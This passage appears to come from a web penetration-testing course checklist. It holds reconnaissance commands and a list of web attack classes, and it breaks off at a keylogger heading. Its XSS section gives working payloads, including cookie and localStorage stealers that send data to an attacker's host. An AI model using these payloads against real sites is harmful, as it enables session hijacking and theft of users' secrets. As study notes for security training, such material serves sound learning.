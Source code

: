 ﻿# Web 200 Checklist

### Discovery
* sudo nmap -v -sS -sV -Pn -A ip_addr
* File / directory discovery (note sometimes you also want to dirbust more than just the web root ie dirbusting against http://site/login.php/FUZZ)
	*  wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 301,404,403 http://site/FUZZ (<b>FOR DIRECTORIES</b> use raft-large-directories.txt)
	* dirsearch -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -u URL --full-url (add -e extension such as -e php for specific extension targeting) (<b>FOR DIRECTORIES</b> use raft-large-directories.txt)
	* dirb (with php extension, ignore 403, and milliseconds throttled to 100) - dirb http://host/ raft-medium-directories.txt -N 403 -X .php -z 100
	* gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -t 5 -b 301
	* gobuster dns -d megacorpone.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30

* Pw / Username discovery - cewl - `cewl -d 2 -m 5 -w docswords.txt https://example.com`
* Binary discovery on box: ` which nc socat curl wget bash sh`
## Test All Of These Scenarios!
- [] cewl/dirsearch
- [] xss
- [] xss w/cross origin
- [] SQLi
- [] LFI/Directory Traversal
- [] XXE
- [] SSTI
- [] OS injection
- [] Server Side Request Forgery
### XSS (All code here is from the course material / notes)
* Discovery
	* `<script>alert(1)</script>`
	* `<img src=foo onerror=alert(1)/>`

* External JS file
	* From an external source (python webserver):
	<b>xss.js</b>
		```
		alert(1)
		```
		Then reference this payload in your initial injection point ie `<script src="http://yourip/xss.js"></script>`
* Cookie Stealer
	* From an external source (python webserver):
	<b>xss.js</b>
		```
		let cookie = document.cookie 
		let encodedCookie = encodeURIComponent(cookie)
		fetch("http://yourIP/exfil?data=" + encodedCookie)
		```
		Then reference this payload in your initial injection point ie `<script src="http://yourip/xss.js"></script>`
* Local Storage Secrets Stealer
	* From an external source (python webserver):
	<b>xss.js</b>
		```let data = JSON.stringify(localStorage) //can also use sessionStorage
		let encodedData = encodeURIComponent(data)
		fetch("http://yourIP/exfil?data=" + encodedData)```
		Then reference this payload in your initial injection point ie `<script src=http://yourip/xss.js">`
* Keylogger
	* From an external source (python webserver):
	<b>xss.js</b>